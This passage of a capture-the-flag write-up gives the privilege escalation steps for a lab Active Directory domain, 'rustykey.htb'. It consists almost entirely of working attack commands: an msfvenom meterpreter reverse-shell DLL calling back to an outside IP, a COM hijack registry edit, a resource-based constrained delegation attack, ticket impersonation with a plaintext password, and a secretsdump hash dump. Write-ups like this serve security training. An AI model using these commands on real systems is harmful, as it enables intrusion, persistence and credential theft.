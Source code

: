 We create a malicious *dll* to obtain a reverse shell with privileges and upload it to `/tmp` using the existing `evil-winrm` connection as __BB.MORGAN__.
```
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.16.6 LPORT=4444 -f dll -e x64/xor -o shell_enc.dll
```

```
*Evil-WinRM* PS C:\tmp> upload shell_enc.dll
```

Then we set up our `Metasploit` listener.
```
msfconsole
```
![Metasploit-Listener](./listener.png)

Now, we perform COM (Component Object Model) Hijack.
```
reg add "HKLM\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" /ve /d "C:\tmp\shell_enc.dll" /f
```

*__Note:__ this reverse shell dies quickly within a few seconds, so be fast hereafter.

Now we perform the RBCD attack quickly. On the reverse shell just obtained, execute the following.
```
msf payload(windows/x64/meterpreter/reverse_tcp) > sessions -i 1
meterpreter > shell
C:\Windows> powershell.exe
PS C:\Windows> Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount IT-COMPUTER3$
```

Now, on our own terminal, we execute the following commands to impersonate __BACKUPADMIN__ and get its service ticket.
```
export KRB5CCNAME=IT-COMPUTER3\$.ccache
getST.py -spn 'cifs/DC.rustykey.htb' -impersonate backupadmin -dc-ip 10.10.11.75 -k 'rustykey.htb/IT-COMPUTER3$:Rusty88!'
```

And then, we try to get the hashes of users.

```
export KRB5CCNAME=backupadmin@cifs_DC.rustykey.htb@RUSTYKEY.HTB.ccache
```
```
secretsdump.py -k -no-pass 'rustykey.htb/backupadmin@dc.rustykey.htb'
```
